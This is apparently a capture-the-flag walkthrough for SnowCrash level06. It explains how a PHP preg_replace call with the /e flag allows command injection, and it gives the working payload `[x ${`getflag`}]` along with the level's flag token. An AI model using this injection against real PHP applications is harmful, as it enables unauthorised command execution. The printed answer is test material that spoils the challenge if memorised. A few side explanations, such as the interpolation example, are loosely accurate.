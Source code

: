 ## level06
Upon arriving at level06, I was greeted with 2 files, here are the enumeration results

```
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
level06@SnowCrash:~$ file level06
level06: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xaabebdcd979e47982e99fa318d1225e5249abea7, not stripped
level06@SnowCrash:~$
```

We have a php script file that supposedly is running on a server, and we have a CGI program which has setuid bit set.

I executed both the script and the program and looks like they have the same output. Could the executable be a compiled version of the php script?

```
level06@SnowCrash:~$ ./level06.php
PHP Notice:  Undefined offset: 1 in /home/user/level06/level06.php on line 5
PHP Notice:  Undefined offset: 2 in /home/user/level06/level06.php on line 5
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
level06@SnowCrash:~$

```

I took a look at the script file, and here is what the formatted version looks like 

```php=
#!/usr/bin/php
<?php
function y($m) { 
    $m = preg_replace("/\./", " x ", $m); 
    $m = preg_replace("/@/", " y", $m); 
    return $m; 
}

function x($y, $z) { 
    $a = file_get_contents($y); 
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); 
    $a = preg_replace("/\[/", "(", $a); 
    $a = preg_replace("/\]/", ")", $a); 
    return $a; 
}

$r = x($argv[1], $argv[2]); 
print $r;
?>
```

The script has a function called `y` which accepts 1 parameter, where it replaces all the `.` with ` x ` and all the `@` with ` y` from the input string and returns the replaced string.

The function `x` however takes 2 inputs, but only the first one is used. the first input should be a path to a file and its contents will be read and stored at the variable `a`

It then finds the pattern `[x (anything here)]` and runs `y(anything here from earlier)` to get the result which is used as a replacement for the file contents. The reason `y` gets executed is becase of the **e(execution) flag** after the regex. This tells the computer to excecute whatever is in the second parameter as PHP code.

The `x` function then replaces braces with parenthesis.

The thing is, the way `y` gets executed is by specifying a string in the second parameter. In Javascript, there is a way to inject varaibles straight into strings like so:
```
let test = `hello ${1 + 1}` // hello 2
```

We can also run functions in it like so: 
```
let test = `hello ${some_func()}` // hello <output of some_func()>

```

We can do the same in PHP like so
```
$test = "hello ${1 + 1}" // hello 2
```

This feature is called **variable interpolation**. And instead of running php functions, php also allows us to run shell commands in variable interpolations using backticks. This feature is called **Execution operator**

```
$test = "hello ${`whoami`}" // hello your_user
```

So back to our function, we can use Execution operators and variable interpolation to execute commands in the `y(anything here from earlier)` step; which we want to acheive
```
y(${`getflag`})
```

To do so, we need to change the `[x (anything here)]` part so that the **second capture group** will batch whatever that we want the input to be on the `y()` call.

Hence, our input should be
```
[x ${`getflag`}]
```

After getting our input, we obtained our flag `wiok45aaoguiboiki2tuin6ub`
```
level06@SnowCrash:~$ ./level06 /dev/shm/input
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

level06@SnowCrash:~$
```
